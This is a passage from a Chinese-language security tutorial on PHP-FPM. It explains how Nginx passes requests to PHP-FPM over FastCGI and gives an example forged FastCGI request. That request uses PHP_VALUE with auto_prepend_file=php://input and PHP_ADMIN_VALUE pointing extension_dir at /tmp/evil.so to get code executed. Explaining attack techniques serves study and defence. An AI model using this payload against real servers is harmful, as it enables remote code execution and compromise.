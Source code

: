 ## 05 PHP-FPM

### 原理

Nginx、FastCGI、PHP-FPM的工作流程

- 客户端请求：

客户端发送一个 HTTP 请求到 Nginx，例如 http://example.com/index.php

- Nginx 处理：

Nginx 根据配置文件判断这是一个 PHP 请求，于是将请求通过 FastCGI 协议转发给 PHP-FPM

- PHP-FPM 处理：

PHP-FPM 接收到请求后，解析 FastCGI 协议，找到对应的 PHP 脚本（如 /var/www/html/index.php），执行该脚本

- 返回结果：

PHP-FPM 将脚本的执行结果通过 FastCGI 协议返回给 Nginx，Nginx 再将结果返回给客户端。

可以上传一个php文件，伪造一份fastcgi协议封装的请求给php-fpm，php-fpm会解析这个请求，执行php文件

举例，这里是一个伪造的fastcgi协议请求

```json
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'extension_dir = /tmp/evil.so',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

分析这份fastcgi报文的关键点：

- 要注意`SCRIPT_FILENAME`字段的php文件一定要存在，因为这份请求是要交给`SCRIPT_FILENAME`字段的php文件执行的
- 字段`PHP_VALUE`可以定义`php.ini`的配置项，使用php配置文件里的`auto_prepend_file`配置项搭配`php://input`伪协议来实现文件包含
- 字段`PHP_ADMIN_VALUE`可以设置除`disable_functions`外的配置项，可以配置`extension_dir`字段，达到在php启动时劫持动态加载的动态链接库

可以看到正常的php扩展目录

![21](/medias/disable_func/21.png)
